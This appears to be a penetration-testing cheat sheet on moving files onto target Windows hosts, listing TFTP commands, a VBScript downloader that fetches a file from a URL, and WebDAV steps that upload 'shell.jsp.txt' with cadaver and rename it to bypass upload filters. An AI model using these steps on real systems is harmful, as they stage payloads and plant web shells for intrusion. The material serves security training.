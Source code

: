 Trivial File Transfer Protocol is a nice way to get around file transfers on Windows assuming it's installed on the sytem. It's basically FTP but it runs on UDP instead of TCP.

```bash
service atftpd start
```

On Kali by default TFTP is configured from the following location:

`/etc/default/atftpd`

And it serves files (by default) from:

`/srv/tftp`

To download files from a server we can do:

```bash
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```

And to upload a file to the server we can do:

```bash
tftp -i host PUT C:%homepath%file location_of_file_on_tftp_server
```

## SFTP

[How To Use SFTP to Securely Transfer Files with a Remote Server](https://www.digitalocean.com/community/tutorials/how-to-use-sftp-to-securely-transfer-files-with-a-remote-server)

## VisualBasic

If push comes to shove, we can use something like the following:

```bash
Set args = Wscript.Arguments 
Url = "http://domain/file" dim xHttp: 
Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: 
Set bStrm = createobject("Adodb.Stream") 
xHttp.Open "GET", Url, False xHttp.Send with bStrm     
.type = 1 '     
.open     
.write xHttp.responseBody     
.savetofile " C:%homepath%file", 2 ' end with
```

## WebDAV

We can sometimes use WebDAV to upload files to a system.

If it's enabled use a tool like cadaver to PUT a file onto the server, usually there are some restrictions on file uploads/execution, bu it doesn't recheck the file after the initial upload, so just use the mv command to change the extension.

```bash
$> cadaver http://192.168.56.5

put shell.jsp.txt
mv shell.jsp.txt shell.jsp
```

